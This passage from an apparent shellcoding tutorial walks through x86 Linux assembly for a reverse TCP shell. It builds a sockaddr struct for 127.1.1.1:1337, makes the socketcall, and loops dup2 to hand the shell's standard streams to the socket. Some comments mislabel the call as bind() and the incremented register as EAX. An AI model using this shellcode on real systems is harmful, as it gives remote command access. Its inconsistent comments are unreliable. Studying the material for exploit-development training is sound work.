 + `ECX[0] = push esi`
  - This is the value we saved from creating the Socket earlier. 
+ `ECX[1] = pointer to the struct on our stack`
+ `ECX[2] = 0x10`
  -  Our Struct of ARG's is now 16 bytes long (`0x10` in Hex). 

#### Assembly Code for the address struct & function bind().
```nasm 
xor eax, eax     ; Clears the eax register
inc ebx
push 0x0101017f  ; ARG[2]. sin_addr.s_addr: 127.1.1.1 (big endian)
push word 0x3905 ; ARG[1]. This is for the TCP Port 1337.
push bx	         ; ARG[0]. Push the value 2 onto the stack, needed for AF_INET.
mov ecx, esp     ; Point ECX to the top of the stack. This will be used for ECX[1].
push 0x10        ; ECX[2] - socklen_t addrlen // Sizeof sockaddr
push ecx         ; ECX[1] - const struct sockaddr *addr // pointer to sockaddr
push esi         ; ECX[0] - int sockfd 
                 ;          Saved in ESI earlier after creating the socket.
mov ecx, esp     ; Stack is all loaded. 
                 ;   We now need to point ECX to the top of the Stack.
inc ebx          ; Connect() value for the socketcall() SYSCAL
mov al, 0x66     ; socketcall() system call
int 0x80         ; System Call Interrupt 0x80 - Executes bind(). 
```
### 4. Duplicate STDIN, STDOUT, STDERR to the remote Socket. 
#### C Function
```c
int dup2(int oldfd, int newfd);  
```
#### Our C Function            
```c
dup2( clientSocket, 0 ); // STDIN
dup2( clientSocket, 1 ); // STDOUT
dup2( clientSocket, 2 ); // STDERR
EAX       EBX      ECX     
```
#### Finding Value for dup2 systemcall.
```console
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup2
  #define __NR_dup2  63
```   


#### Assembly Loop to transfer input and output to the remote socket.
```nasm 
xchg ebx, esi     ; This is our socket value returned from our `socket` systemcall.
xor ecx, ecx      ; Clear the ECX Register
dup2loop:
mov al, 0x3f      ; EAX Syscall dup2() for STDIN STDOUT STDERR
int 0x80          ; execute dup2()
inc ecx           ; increase EAX by 1
cmp cl, 0x4       ; compare cl to 4, if it is 4 the flag will be set
jne dup2loop      ; Jumps to the specified location if flag is set
```


[1]: 1